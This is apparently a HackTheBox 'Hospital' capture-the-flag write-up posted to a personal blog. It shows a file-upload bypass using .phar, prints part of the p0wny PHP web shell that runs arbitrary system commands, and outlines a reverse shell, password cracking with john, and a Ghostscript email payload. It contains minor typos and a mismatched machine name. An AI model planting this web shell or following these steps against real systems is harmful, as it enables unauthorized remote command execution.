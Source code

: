 ```yaml
---
layout: post
title: "Hospital-Windows-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/box-hospital.png
---
```


# Hospital

HackTheBox: Medium

<aside>
💡 Monitored is a windows machine

</aside>

## 1: Enumeration
<br/><br/>
- nmap scanning
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_1.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_2.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_3.png' | relative_url }})
<br/><br/>
We can see 2 http services, go forward the one which allows create an account
<br/><br/>
> Testing some allowed extensions, we realise .phar extensions.
There is a  tool called ponyshell, downloaded and change its extensions
> 
<br/><br/>
```bash
<?php

$SHELL_CONFIG = array(
    'username' => 'p0wny',
    'hostname' => 'shell',
);

function expandPath($path) {
    if (preg_match("#^(~[a-zA-Z0-9_.-]*)(/.*)?$#", $path, $match)) {
        exec("echo $match[1]", $stdout);
        return $stdout[0] . $match[2];
    }
    return $path;
}

function allFunctionExist($list = array()) {
    foreach ($list as $entry) {
        if (!function_exists($entry)) {
            return false;
        }
    }
    return true;
}

function executeCommand($cmd) {
    $output = '';
    if (function_exists('exec')) {
        exec($cmd, $output);
        $output = implode("\n", $output);
    } else if (function_exists('shell_exec')) {
        $output = shell_exec($cmd);
    } else if (allFunctionExist(array('system', 'ob_start', 'ob_get_contents', 'ob_end_clean'))) {
        ob_start();
        system($cmd);
        $output = ob_get_contents();
        ob_end_clean();
    } else if (allFunctionExist(array('passthru', 'ob_start', 'ob_get_contents', 'ob_end_clean'))) {
        ob_start();
        passthru($cmd);
        $output = ob_get_contents();
        ob_end_clean();
    } else if (allFunctionExist(array('popen', 'feof', 'fread', 'pclose'))) {
        $handle = popen($cmd, 'r');
        while (!feof($handle)) {
            $output .= fread($handle, 4096);
        }
        pclose($handle);
    } else if (allFunctionExist(array('proc_open', 'stream_get_contents', 'proc_close'))) {
        $handle = proc_open($cmd, array(0 => array('pipe', 'r'), 1 => array('pipe', 'w')), $pipes);
        $output = stream_get_contents($pipes[1]);
        proc_close($handle);
    }
    return $output;
}

function isRunningWindows() {
    return stripos(PHP_OS, "WIN") === 0;
}
```
<br/><br/>
We can search with gobuster to search routes 
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_4.png' | relative_url }})
<br/><br/>
## 2: User flag
<br/><br/>
We can use a rev shell and generate estability
<br/><br/>
Using uname -a we can see there is a vulnerable kernel version, download the exploit 
<br/><br/>
- We are root at data → cat /etc/passwd
<br/><br/>
```bash
john hash.txt rockyou.txt
```
<br/><br/>
We’ve got creds in the 443 port interface, there we find a Gohostscript vulnerability
<br/><br/>
Clone the repository and create the payload to injected 
<br/><br/>
1. We send a payload with nc.exe request by email
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_5.png' | relative_url }})
<br/><br/>
1. Once it is on the victim machine we sent another payload with the rev shell
<br/><br/>
![Untitled]({{ '/assets/images/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5/03474a48-aa77-4a3c-97fd-0378f857aa8e-export-f261a4d5-a771-4e81-9b11-b4b2aa116ad5_Untitled_6.png' | relative_url }})
<br/><br/>
## 3: Priv esc
<br/><br/>
Start this part where you spawn, theres is a file called ghostscrip.bat lets type it
<br/><br/>
> We found some rcpclient creds
> 
<br/><br/>
### rcpclient
<br/><br/>
It has functions of authentication and enumeration of services, getting information about users
<br/><br/>
```bash
rcpclient -u "user" url 
querydispinfo
```
<br/><br/>
We realise that guest user has admin permises so lets go to C:\xampp\htdocs and user ponyshell again wiht a .php ext
<br/><br/>
Machine pwned./!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
